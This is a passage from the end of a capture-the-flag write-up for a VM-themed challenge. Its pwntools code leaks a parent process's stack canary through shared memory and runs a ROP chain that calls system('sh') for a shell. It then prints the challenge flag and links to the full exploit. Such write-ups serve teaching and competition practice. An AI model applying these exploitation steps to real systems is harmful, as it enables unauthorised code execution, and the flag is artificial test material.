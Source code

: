 ```python
# dummy read, just for waiting a bit
rop.read(0, shared_mem, 2)
# leak parent stack canary
rop.write(1, shared_mem + 74, 8)
# read rop chain for parent to shared_mem
rop.read(0, shared_mem, 0x1000)
# trigger rop in parent, via sys_ls()
rop.write(parent_fd, rop_data_addr + len(rop_data), 5)
rop_data += data_sys(6)
# exit
rop.exit(0)
```

The ROP chain executed in the kernel is very simple: since the binary imports `system`, we can return to it, passing `sh` as argument (which we can also place in the shared memory), and finally get a shell!

```python
rop = ROP(binary)
# 'sh' is placed at shared_mem + 0x300
rop.system(shared_mem + 0x300)
```

Flag: `midnight{7h3re5_n0_I_iN_VM_bu7_iF_th3r3_w@s_1t_w0uld_b3_VIM}`

You can find the full exploit script [here](https://gist.github.com/LevitatingLion/725dd8bfa710d95b108fa83f67449132).
